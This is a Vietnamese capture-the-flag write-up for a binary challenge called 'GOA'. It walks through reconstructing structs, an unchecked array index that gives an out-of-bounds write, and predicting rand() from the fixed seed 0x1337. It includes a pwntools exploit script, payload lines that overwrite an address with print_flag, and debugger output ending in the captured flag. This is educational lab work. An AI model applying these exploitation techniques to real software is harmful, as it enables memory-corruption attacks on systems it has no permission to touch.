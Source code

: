 # write up GOA
- đầu tiên cần làm là tạo struct để chương trình có 1 cấu trúc giống source nhất có thể
```c
// struct của trooper và monster
00000000 struct str1 // sizeof=0x10
00000000 {
00000000     char string[8];
00000008     int damn;
0000000C     int health;
00000010 };

00000000 struct str2 // sizeof=0x18
00000000 {                                       // XREF: main/r
00000000     size_t string;
00000008     int damn;                           // XREF: main+8C/o main+426/o
0000000C     int health;
00000010     int not_health;
00000014     // padding byte
00000015     // padding byte
00000016     // padding byte
00000017     // padding byte
00000018 };
```
- struct được tạo dựa trên số bytes của struct được đọc từ chương trình có thể là con số 24 như ở biến monster này
  
```c
    *&monster_88[24 * j - 8] = &decide_value;
    *&monster_88[24 * j] = 32;
    *&monster_88[24 * j + 4] = 16;
    *&monster_88[24 * j + 8] = 256;

```
- và 1 số thông tin khác để xác định 1 cách tương đối những đối tượng của struct thì sẽ rút gọn đc chương trình
- lỗi sẽ nằm ở đây, hero[m].fame_id, đó là out of bound, vì chương trình không có check bound vì vậy em có thể gán giá trị vào các địa chỉ em muốn thông qua hàm str và hero name em nhập
```c
 string = &str[hero[m].fame_id];
 decide_value = *&hero[m].name[8];         // long int decide_value
*string->name = *hero[m].name;
```
trước đó được gán cho số k trong vòng lặp trên
```c
for ( k = 0; k < numsofhero; ++k )
  {
    hero[k].fame_id = k;
    hero[k].damn = 32;
    hero[k].special_damn = 48;
    hero[k].health = 512;
...
```
- chương trình cho phép em nhập numsofhero
```c
puts("How many hero do you want?(0-2)");
  scanf("%d", &numsofhero);
````

- vậy để có thể đến bước gán em phải làm cho hero won
```bash
Monster is lack 80 healths!
┏┓︱︱ ︱︱︱︱ ︱︱︱ ︱︱︱︱   ︱︱︱︱︱︱ ︱︱︱︱ ︱︱︱︱
┃┃︱︱ ︱︱︱︱ ︱︱︱ ︱︱︱︱   ︱︱︱︱︱︱ ︱︱︱︱ ︱︱︱︱
┃┗━┓ ┏━━┓ ┏━┓ ┏━━┓   ┏┓┏┓┏┓ ┏━━┓ ┏━┓︱
┃┏┓┃ ┃┃━┫ ┃┏┛ ┃┏┓┃   ┃┗┛┗┛┃ ┃┏┓┃ ┃┏┓┓
┃┃┃┃ ┃┃━┫ ┃┃︱ ┃┗┛┃   ┗┓┏┓┏┛ ┃┗┛┃ ┃┃┃┃
┗┛┗┛ ┗━━┛ ┗┛︱ ┗━━┛   ︱┗┛┗┛︱ ┗━━┛ ┗┛┗┛
========================
         ⚨ Trooper turn 
========================
Attacking the monster ...
========================
         ☠ Monster turn 
========================
Attack the hero first! Kill the legion commander
```
- để hero won thì có 2 cách, có thể nhập tăng số lượng trooper và hero lên hoặc có thể vượt qua hàm srand và rand trong hàm battle
```c
if ( battle_field(hero, trooper, monster, &decide_value - 396) )
  {
    puts("Big won! The civilian always remember heroes!");
    puts("======== ^ HALL OF FAME ^ =========");
    for ( m = 0; m < numsofhero; ++m )
```

```c
 i = 0;
  j = 0;
  k = 0;
  srand(0x1337u);

...

    puts("Do you wanna attack [1]monster or [0]trooper?(1/0)");
    scanf("%d", &choice);
    if ( choice == 1 )
    {
      puts("Attacking the monster....");
      random = rand() % 2022;
      printf("Guessing monster attack direction to attack\nWhat do you think? > ");
      scanf("%d", &userinput);
      if ( random == userinput )
      {
        printf("Monster is lack %d healths!\n", (hero[i].damn + hero[i].special_damn));
        monster[j].not_health -= hero[i].damn + hero[i].special_damn;
      }
```
- vì srand() và rand() nó random bằng Pseudorandom number generator nên nó không ngẫu nhiên, em chỉ cần dùng seed là 0x1337 như ở bài này và dùng python là có thể vượt qua
```c
def random():
    p.sendlineafter(b'[0]trooper?(1/0)',b'1')
    p.recvuntil(b'the monster....')
    libc.srand(0x1337)
    p.sendlineafter(b' you think? >',str(libc.rand()%2022))
    p.sendlineafter(b'[0]trooper?(1/0)',b'1')
    p.recvuntil(b'the monster....')
    p.sendlineafter(b' you think? >',str(libc.rand()%2022))
    p.sendlineafter(b'[0]trooper?(1/0)',b'1')
    p.recvuntil(b'the monster....')
    p.sendlineafter(b' you think? >',str(libc.rand()%2022))
    p.sendlineafter(b'[0]trooper?(1/0)',b'1')
    p.recvuntil(b'the monster....')
    p.sendlineafter(b' you think? >',str(libc.rand()%2022))
```
- random sẽ được thực hiện trước khi hàm rand được hiện đúng sau hàm in chuỗi xuất hiện
```c
  puts("Attacking the monster....");
```
thì sẽ hiệu quả 
- sau khi vượt qua thì thì em đọc assembly thấy rằng nó lấy giá trị em nhập từ lúc nhập tên hero xong shift left rồi cộng với
địa chỉ phần tử đầu tiên của biến str để truy suất tới đó
```assembly
*RCX  0x12
 RDX  0x7fffffffe5b0 ◂— 0xfffde39800000012

...

*RIP  0x555555556339 ◂— lea rdx, [rbp - 0x120]
 EFLAGS 0x202 [ cf pf af zf sf IF df of ]
─────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────
   0x55555555632d    add    rdx, rbp
   0x555555556330    sub    rdx, 0x160
   0x555555556337    mov    ecx, dword ptr [rdx]
 ► 0x555555556339    lea    rdx, [rbp - 0x120]
   0x555555556340    movsxd rcx, ecx
   0x555555556343    shl    rcx, 4
   0x555555556347    add    rcx, rdx
   0x55555555634a    mov    rdx, qword ptr [rax + 8]
   0x55555555634e    mov    rax, qword ptr [rax]
   0x555555556351    mov    qword ptr [rcx], rax
   0x555555556354    mov    qword ptr [rcx + 8], rdx
```
- sau đó nó gán giá trị cho địa chỉ đó cũng từ dữ liệu em nhập vào
```assembly
0x555555556351    mov    qword ptr [rcx], rax
```
- vì vậy em có thể nhập payload như này, vì địa chỉ print_flag có rồi nên em gán luôn 
  ```python 
    p.sendafter(b' your hero?',p8(0x12) + b'\0'*3 +p64(stack)+p32(addr &0xffffffff))
    p.sendafter(b' your hero?',p64(0x12) + b'a'*4 + p16(addr >>32))
  ```
- em phải chia đôi cái địa chỉ ra để gán cho mỗi lần như vậy
```bash
    00000036
Top 19 - \x98\xe3\xfd\xff\xff\x7f


 ========== 𝗕𝗬𝗘 ==========
[DEBUG] Received 0x27 bytes:
    b'Here is your gift: lmao{lmaolmaolmao}\n'
    b'\n'
Here is your gift: lmao{lmaolmaolmao}

$
```
Khi chạy thì lấy được flag rồi =))
- 


